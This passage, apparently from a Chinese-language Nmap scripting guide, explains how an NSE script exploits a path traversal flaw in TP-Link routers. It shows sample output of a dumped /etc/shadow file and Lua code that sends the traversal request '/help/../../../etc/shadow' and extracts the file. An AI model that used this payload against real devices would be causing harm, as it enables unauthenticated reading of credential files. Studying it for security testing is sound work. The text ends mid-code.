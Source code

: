 -- |   Admin:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   bin::10933:0:99999:7:::
-- |   daemon::10933:0:99999:7:::
-- |   adm::10933:0:99999:7:::
-- |   lp:*:10933:0:99999:7:::
-- |   sync:*:10933:0:99999:7:::
-- |   shutdown:*:10933:0:99999:7:::
-- |   halt:*:10933:0:99999:7:::
-- |   uucp:*:10933:0:99999:7:::
-- |   operator:*:10933:0:99999:7:::
-- |   nobody::10933:0:99999:7:::
-- |   ap71::10933:0:99999:7:::
-- |   
-- |     References:
-- |_      http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740
```

## 它是如何工作的...

脚本`http-tplink-dir-traversal.nse`执行以下任务以利用讨论的路径遍历漏洞：

1.  首先，它发送路径遍历请求以确定安装是否易受攻击。

1.  如果安装易受攻击，则从 Web 服务器发送的响应中提取请求的文件。

1.  向用户报告漏洞并提供概念验证。

在这种情况下，需要`http`库来发送包含路径遍历有效负载的 HTTP 请求。为了确定设备是否易受攻击，我们请求文件`/etc/shadow`，因为我们知道所有设备中都存在此文件，并且其中必须存在一个 root 帐户：

```
local response = http.get(host, port, "/help/../../../etc/shadow")
```

响应应该包含请求的文件，位于结束脚本标记`</SCRIPT>`之后的正文中：

![工作原理...](img/7485_09_01.jpg)

要确认可利用性，我们只需要将响应主体与字符串"root:"进行匹配：

```
if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
```

Lua 捕获允许开发人员提取与给定模式匹配的字符串。它们非常有帮助，我强烈建议您尝试一下（[`www.lua.org/pil/20.3.html`](http://www.lua.org/pil/20.3.html)）：

```
local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
```

一旦确认漏洞，建议使用`vulns`库进行报告。该库旨在统一各种 NSE 脚本使用的输出格式。它支持多个字段，以有组织的方式提供所有漏洞详细信息：

```
local vuln = {
       title = 'Path traversal vulnerability in several TP-Link wireless routers',
       state = vulns.STATE.NOT_VULN,
       description = [[
Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
This vulnerability can be exploited without authentication.Confirmed vulnerable models: WR740N, WR740ND, WR2543ND